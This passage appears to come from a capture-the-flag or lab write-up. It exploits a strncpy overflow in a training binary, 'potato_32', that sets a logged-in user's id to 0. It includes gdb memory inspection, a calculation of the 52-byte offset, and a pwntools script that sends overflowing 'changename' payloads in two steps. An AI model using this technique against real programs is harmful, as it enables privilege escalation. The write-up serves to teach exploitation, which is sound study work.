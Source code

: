 If we provide a long enought string we will overwrite the `name`, `password_hash` and set our `id` to 0. The current users `id` if we are logged in as _peter_ is 1000 (represented in hex 0x2710).
In our little endian architecture we can see our current `id` represented in memory as `0x10 0x27 0x00 0x00`.

```bash
gef➤  x/4bx &session->logged_in_user->id
0x8050464:      0x10    0x27    0x00    0x00
```

To check if our theory of the 52 byte space we need to override is correct we check the current address layout in memory.

```bash
gef➤  p &session->logged_in_user->id
$1 = (int *) 0x8050464
gef➤  p &session->logged_in_user->name
$2 = (char (*)[20]) 0x8050430
gef➤  p 0x8050464 - 0x8050430
$3 = 0x34
```

We can see that the address space we need to overwrite is 0x34 bytes big, which is simply the hex representation of 52 bytes.

If we provide a string of length 52 + 1, strncpy will overwrite the 0x27 byte in memory with 0x00. Subsequently providing a string of length 52, strncpy will overwrite the 0x10 byte with 0x00.
We will need to do this in two steps because we can not manually write a 0x00 byte to our desired memory addresses. For this we craft the following script with the needed payloads.

```python
#!/usr/bin/env python3

from pwn import *
import sys

elf = ELF("./potato_32")
# context.binary = elf
# context.arch = 'i386'
# context.bits = 32
# context.endian = 'little'
# context.os = 'linux'

p = elf.process(["console"], stdin=PTY, aslr=False) # stdin=PTY for "getpass" password input
gdb.attach(p, '''
continue
''')

print(p.recvuntil(b"cmd> ")) # username
p.sendline(b"login")
# test user
p.sendline(b"peter")
p.sendline(b"12345")
print(p.recvuntil(b"cmd> ")) # username

p.sendline(b"changename")
payload = b"\x41"*53
p.sendline(payload)

p.sendline(b"changename")
payload = b"\x41"*52
p.sendline(payload)

p.sendline(b"changename")
payload = b"peter"
p.sendline(payload)

```